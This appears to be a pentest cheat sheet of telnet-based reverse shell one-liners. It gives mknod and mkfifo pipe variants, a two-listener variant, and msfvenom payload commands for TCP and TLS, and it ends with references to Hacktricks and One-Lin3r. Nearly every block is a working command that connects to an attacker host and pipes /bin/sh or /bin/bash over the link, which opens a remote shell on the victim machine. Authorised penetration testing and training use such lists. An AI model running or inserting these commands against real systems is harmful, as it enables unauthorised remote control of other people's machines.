 # Telnet

## 01 - One-liners

### 1.1 - `mknod`

```
$ mknod backpipe p && telnet <attacker_IP> <attacker_PORT> 0<backpipe | /bin/bash 1>backpipe; rm -f backpipe
```

### 1.2 - `mkfifo`

```
$ mkfifo /tmp/f && telnet <attacker_IP> <attacker_PORT> 0</tmp/f | /bin/sh 1>/tmp/f; rm -f /tmp/f

$ TF=$(mktemp -u); mkfifo $TF && telnet <attacker_IP> <attacker_PORT> 0<$TF | /bin/sh 1>$TF; rm -f $TF
```

### 1.3 - Wacky

Open two listeners of `netcat`. The first port is for sending commands and the second is for the output.

```
$ telnet <attacker_IP> <attacker_PORT_1>  | /bin/sh | telnet <attacker_IP> <attacker_PORT_1>

$ telnet <attacker_IP> <attacker_PORT_1>  | /bin/bash | telnet <attacker_IP> <attacker_PORT_1>
```

## 02 - Generate via `msfvenom`

### 2.1 - TCP Method

```
$ msfvenom -p cmd/unix/reverse shellpath=/bin/sh [telnetpath=/path/to/telnet] lhost=<IP> lport=<PORT>
```

### 2.2 - TLS Method

You can include TLS certificate to encrypt communication.

```
$ msfvenom -p cmd/unix/reverse_ssl_double_telnet shellpath=/bin/sh [telnetpath=/path/to/telnet] handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>
```

Generate a reverse shell telnet via bash prompt.

```
$ msfvenom -p cmd/unix/reverse_bash_telnet_ssl handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>
```

---
## References

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

### Github

- [D4Vinci: One-Lin3r](https://github.com/D4Vinci/One-Lin3r)